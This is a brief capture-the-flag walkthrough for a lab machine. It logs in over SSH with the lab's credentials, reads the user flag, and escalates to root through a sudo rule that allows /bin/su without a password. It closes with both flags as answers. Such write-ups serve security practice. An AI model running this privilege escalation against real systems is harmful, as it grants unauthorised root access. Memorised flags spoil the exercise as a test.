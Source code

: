 ```
ssh nyan@10.10.246.33

The authenticity of host '10.10.246.33 (10.10.246.33)' can't be established.
ECDSA key fingerprint is SHA256:haqegvkQqmIEEzS0Mcd+NUsONboBQ6z3wQSwq+aj5Es.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.246.33' (ECDSA) to the list of known hosts.
nyan@10.10.246.33's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Sat Dec 21 08:37:54 2019
nyan@ubuntu:~$
```

- Access: SSH: nyan@10.10.246.33 - Password: nyan

```
nyan@ubuntu:~$ ls -l
total 4
-rw-rw-r-- 1 nyan nyan 14 Dec 20  2019 user.txt

nyan@ubuntu:~$ cat user.txt
supernootnoot
```

- User Flag: `supernootnoot`

```
nyan@ubuntu:~$ sudo -l
Matching Defaults entries for nyan on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nyan may run the following commands on ubuntu:
    (root) NOPASSWD: /bin/su

nyan@ubuntu:~$ sudo su
root@ubuntu:/home/nyan# cat ~/
.bash_history  .bashrc        .nano/         .profile       root.txt

root@ubuntu:/home/nyan# cat ~/root.txt
congratulations!!!!
```

- Root Flag `congratulations!!!!`

1. What is the user.txt

`supernootnoot`

2. What is the root.txt

`congratulations!!!!`
